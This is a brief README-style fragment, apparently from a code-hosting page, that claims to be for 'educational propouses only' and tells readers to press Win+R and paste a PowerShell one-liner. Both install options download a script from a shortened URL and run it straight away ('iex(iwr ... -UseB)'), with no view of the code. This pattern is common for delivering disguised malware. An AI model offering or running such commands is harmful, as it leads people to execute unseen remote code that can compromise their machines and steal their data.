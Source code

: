 educational propouses only.

For install:
Win + R and paste this:

option 1:
```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
(Fast)

option 2:
```powershell "iex(iwr abre.ai/-i -UseB)"```
